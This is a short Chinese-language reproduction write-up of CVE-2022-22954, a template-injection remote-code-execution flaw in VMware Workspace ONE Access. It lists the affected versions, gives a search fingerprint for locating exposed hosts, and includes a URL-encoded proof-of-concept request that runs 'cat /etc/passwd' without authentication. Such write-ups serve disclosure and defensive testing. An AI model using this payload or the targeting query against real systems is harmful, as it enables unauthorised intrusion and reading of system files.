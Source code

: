 # VMware Workspace ONE Access SSTI漏洞 CVE-2022-22954

## 漏洞描述

VMware Workspace ONE Access（以前称为VMware Identity Manager）旨在通过多因素身份验证、条件访问和单点登录，让您的员工更快地访问SaaS、Web和本机移动应用程序。其中的CVE-2022-22954是一个匿名服务器模板注入漏洞，未经身份验证的攻击者可以利用此漏洞进行远程任意代码执行。

## 漏洞影响

```
VMware Workspace ONE Access Appliance （版本号：20.10.0.0 ，20.10.0.1 ，21.08.0.0 ，21.08.0.1 ）
VMware Identity Manager Appliance （版本号：3.3.3 ， 3.3.4 ， 3.3.5 ，3.3.6）
VMware Realize Automation （版本号：7.6）
```

## 网络测绘

```
app="vmware-Workspace-ONE-Access"
```

## 漏洞复现

登录页面

![image-20220524132528721](./images/202205241325815.png)

验证POC

```
/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d
```

![image-20220524132657968](./images/202205241326167.png)